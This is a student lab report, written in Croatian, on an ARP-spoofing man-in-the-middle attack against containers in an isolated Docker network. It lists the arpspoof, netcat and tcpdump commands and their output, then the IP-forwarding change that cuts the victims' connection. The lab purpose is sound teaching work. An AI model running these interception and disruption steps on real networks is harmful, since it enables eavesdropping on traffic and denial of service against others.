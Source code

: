 # Izvještaj laboratorijske vježbe

# 1.  Man-in-the-middle attacks (ARP spoofing)

## Zadatak

Realizirali smo **man in the middle** napad u virtualiziranoj Docker mreži koju su činili 3 virtualizirana Docker računala: 

- dvije žrtve
    - station-1
    - station-2
- napadač
    - evil-station

## Opis napada i korištenih naredbi u Ubuntu terminalu

- kloniranje GitHub repozitorija sa skriptama za pokretanje i zaustavljanje virtualiziranog mrežnog scenarija (start.sh i stop.sh) kao i docker konfiguracijskim datotekama  kojima je opisana Docker virtualna mreža

```bash
$ git clone https://github.com/mcagalj/SRP-2021-22
```

- promjena radnog direktorija

```bash
$ cd SRP-2021-22
$ cd arp-spoofing
```

- pokretanje docker kontejnera

```bash
$ chmod +x ./start.sh
$ ./start.sh
```

 **chmod +x** naredba omogućava permission za execute

- pokretanje iteraktivnog shella u pojedinim kontejnerima

```bash
$ docker exec -it station-1 bash
$ docker exec -it station-2 bash
$ docker exec -it evil-station bash
```

- lako možemo pregledati stvorene kontejnere

```bash
$ docker ps
```

```
CONTAINER ID   IMAGE     COMMAND   CREATED         STATUS         PORTS     NAMES
c900777a3a32   srp/arp   "bash"    8 minutes ago   Up 8 minutes             evil-station
c6fb25e1c71c   srp/arp   "bash"    8 minutes ago   Up 8 minutes             station-2
03e6cfe01d39   srp/arp   "bash"    8 minutes ago   Up 8 minutes             station-1
```

- pregled mrežnih parametara za npr. station-1

```bash
$ ifconfig -a
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.21.0.2  netmask 255.255.0.0  broadcast 172.21.255.255
        ether 02:42:ac:15:00:02  txqueuelen 0  (Ethernet)
        RX packets 14  bytes 1172 (1.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

sit0: flags=128<NOARP>  mtu 1480
        sit  txqueuelen 1000  (IPv6-in-IPv4)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tunl0: flags=128<NOARP>  mtu 1480
        tunnel   txqueuelen 1000  (IPIP Tunnel)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

- pomoću **netcata** otvaramo server TCP socket na kontejneru station-1 na porizvoljnom portu npr. 8000

```bash
$ netcat -lp 8000
```

- sada otvaramo client TCP socket za station-1 na određenom portu

```bash
$ netcat station-1 8000
```

- Sada pokrećemo napad evil-stationa naredbom **arpspoof** gdje prvo navodimo **host** kontejner s kojim sada razmijenjujmo podatke a drugo **target** kontejner za kojeg se lažno predstavljamo

```bash
$ arpspoof -t station-1 station-2
```

```
2:42:ac:12:0:3 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
```

ethernet adresa računala koje šalje podatke (**station-1**)

ethernet adresa računala koje "prima" podatke (**station-2**)

ip adresa računala koje prima podatke (**evil-station)**

**evil-station** predstavio se kao **station-2**

- promet možemo pratiti u evil-stationu naredbom **tcpdump** i **tcpdump -x** (pretvara promet u heksadecimalni kod)

```bash
$ tcpdump
$ tcpdump -x
```

- promet između **station-1** i **station-2** virtualnih računala prekidamo navedenom naredbom

```bash
$ echo 0 > /proc/sys/net/ipv4/ip_forward
```

## Zaključak

Izveli smo man in the middle napad na virtualnoj docker mreži sa tri virtualna računala. Evil-station se predstavio kao station-2 i tako narušio povjerljivost (**confidentiality**) podataka pasivno osluškujući vezu između station-1 i station-2 računala. Nakon toga, podacima smo narušili integritet (**integrity**) tako što smo promet mogli pratit kao heksadecimalni kod. Na kraju smo još prekinuli vezu između station-1 i station-2 računala čime smo narušili dostupnost (**availability**). Sva tri osnovna sigurnosna cilja su narušena!